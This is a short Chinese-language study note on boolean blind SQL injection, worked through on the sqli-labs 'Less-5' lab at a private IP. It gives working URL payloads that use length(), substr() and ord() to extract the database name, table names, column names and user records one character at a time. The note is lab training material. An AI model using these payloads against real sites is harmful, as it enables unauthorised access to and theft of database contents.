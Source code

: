 # 盲注

盲注为不会把查询结果返回到前端的注入

## 爆数据库名长度

数据库名security八位，到>=9的时候会错误，此为Bool盲注

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and length(database())>=8 %23
```

确定数据库名长度为八位

## 逐位爆数据库

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr(database(),1,1)='s' %23
```

`substr`函数为截取字符串，从第一个字符开始，只返回一个

此步骤比较繁琐，建议使用工具，比如BurpSuite

或者可以采用ascii码猜解

```sql
and ord(substr(database(),1,1))=115
```

## 逐位爆表名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' %23
```

limit为从第0位开始，查询第一位，也就是第一个表名

## 逐位爆列名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' %23
```

## 爆数据同理

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select username from security.users where id='1' limit 0,1),1,1)='d' %23
```

# 报错注入
